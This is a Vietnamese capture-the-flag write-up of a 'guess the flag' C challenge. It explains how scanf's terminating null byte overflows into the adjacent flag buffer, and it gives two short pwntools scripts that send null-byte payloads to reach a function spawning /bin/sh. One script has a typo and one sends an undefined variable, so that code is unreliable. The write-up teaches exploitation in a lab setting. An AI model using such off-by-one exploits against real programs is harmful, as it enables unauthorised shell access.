





# Chall

## Tìm lỗ hổng

```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

Chúng ta được cung cấp code C và file thực thi. Khi đọc code thực thi chúng ta nhận ra chương trình này là đọc file flag trên sever rồi compare với input mà người dùng nhập vào. Chuỗi your_try được khai báo là mảng 64 kí tự là chuỗi mà người dùng nhập vào. Tôi tiến hành dùng gdb pdis main rồi đặt breakpoint tại chỗ compare flag.


Tại đây tôi chạy với chuỗi luongsosad và chuỗi giả flag.txt kia. Tôi tiến hành trừ địa chỉ

0x7fffffffdf00-0x7fffffffdec0 = 64 mà khai báo chuỗi input vào cũng 64 bytes, ô nhớ của 2 cái này liền kề nhau. Vậy chuyện gì sẽ xảy ra khi nhập nhiều hơn 64.



Tôi thử nhập 66 kí tự , input chỉ lưu được 64 kí tự a. Còn ô nhớ flag lại trở thành ''.

Tức là scanf sau khi nhập 64 kí tự rồi thêm cái '\x00' để kết thúc chuỗi tức là len chuỗi lúc này phải là 65. Chính vì thế mà bytes của input đã bị tràn sang flag. Hiểu tức là '\0' đã tràn sang flag và hiểu chuỗi đó trở thành chuỗi NULL coi như kết thúc chuỗi luôn.

## Lên kịch bản

Vậy ý tưởng lúc này chúng ta cần so sánh được 2 chuỗi NULL là sẽ thành công exploit được chương trình này. Tóm lại chúng ta chỉ cần nhập chuỗi input start with NULL và end cũng với NULL thế là sẽ thành so sánh 2 chuỗi NULL và khai thác được hàm win().
Do chuỗi chỉ tính đến NULL là kết thúc.

## Khai thác

```Python
from pwn import *

r = process("./chall")
payload = "\x00"*1 + "a"*62 + "\0x00"
r.sendline(payload)
r.interactive()
```

```Python
from pwn import *

r = process("./chall")
payload1 = "\x00" * 64
r.sendline(payload)
r.interactive()
```

Đây là code của tôi ví dụ với 2 payloads, sau khi chạy cat flag.txt là đã thành công.

